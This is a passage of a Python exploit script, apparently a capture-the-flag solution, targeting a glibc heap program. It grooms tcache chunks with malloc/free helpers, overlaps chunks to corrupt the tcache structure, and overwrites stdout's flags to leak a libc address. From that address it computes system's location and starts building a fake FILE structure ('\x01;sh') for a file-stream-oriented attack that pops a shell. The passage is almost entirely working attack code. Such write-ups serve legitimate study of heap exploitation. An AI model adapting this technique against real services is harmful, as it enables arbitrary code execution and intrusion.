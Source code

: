 ```py
    if(i == 2):
        continue
    free(f"CACHE3-{i}")

free("SMOL-11")

# ONE NEAR
free("CACHE3-2")
# ONE IN CONTROL
free("CACHE3-9")
# DED CHUNKS
free("CACHE3-7")
free("CACHE3-9")
free("SMOL-12")

malloc("SH1",0x500,"HELLO")

free("VICTIM")
malloc("VICTIM2",0X58,0x28*b"a" + p64(0xb1))

free("OVERLAP-1")
malloc("MODIFY",0xa8,5*p64(0x0) + p64(0x21) + 0x18*b"a" + 
        p64(0x31) + 0x8*b"a"  + b"\x10")

for i in range (9):
    malloc(f"CACHE4-{i}",0x28,"AAAA")

for i in range (3):
    free(f"MAIN{i}")

# =================== GOT SECOND ALLOCATION ON TCACHE STRUCT ======================

malloc("ZER0",0x28,p64(0x0))
free("ZER0")

malloc("TSP",0x458,b"\xc0\x45")

payload = p64(0xfbad1800) + p64(0x0)*3 + b"\x00"
malloc("FSOPLEAK",0x338,payload,norecv=1)

# ========================== GETTING LIBC LEAK ===================================

libc = u64((rv(6)).ljust(8,b"\x00")) - 0x204644
print("[+] LIBC OBTAINED : ",hex(libc))
rvu(b":")

free("TSP")
malloc("FINAL-0",0x458,p64(libc + 0x2045c0))

# ================================ FSOP =====================================
fp = libc + 0x2045c0
system = libc + 0x58740
wfileoverflow   = libc + 0x202390

# STDOUT 

fs  = b"\x01;sh".ljust(8,b"\x00")   # original _flags & ~_IO_USER_BUF
fs += p64(0x0) * 12                  # _IO_read_ptr to _markers
fs += p64(0x0)                      # _chain
fs += p32(1)                        # _fileno
fs += p32(0)                        # _flags2
fs += p64(0)                        # _old_offset
fs += p16(0)                        # _cur_column
```